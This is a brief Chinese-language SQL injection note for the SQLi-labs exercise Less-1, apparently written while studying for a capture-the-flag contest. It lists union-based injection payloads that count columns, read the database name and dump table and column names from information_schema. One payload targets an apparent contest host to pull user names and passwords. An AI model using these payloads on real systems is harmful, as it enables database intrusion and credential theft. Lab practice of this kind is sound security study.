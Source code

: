 







## xxx.SQL-labs

### Less-1

判断字符和数字型

```
?id=1'
```



判断列数，4不行，3可以，那就是3列



id=-1，两个sql语句进行联合操作时，当前的一个语句选择的内容为空，我们就将后面的语句的内容显示出来

```
?id=-1' order by 4 --+
```

order by 或是 group by 都是用来判断列数的，后面查询要改为union



union联合查询列，记得database();后面有个分号，--+或者#

```
?id=-1' union select 1,2,database(); --+
```

查找一个数据库名称为security



group_concat 用在分组查询中，可以将组内多个值连接成一个字符串

则 ==information_schema==

```
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
```

查找出emails,referers,uagents,users

```
http://0192c6a0c58c71c29755fafdf21344df.qa8u.dg10.wangdingcup.com:43008/OA_announcement.php?id=-1 union select id= -1,group_concat(OAname),group_concat(PassWord),4 from OA_Users
```



然后可以查询表名的数据

```
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='user'--+
```
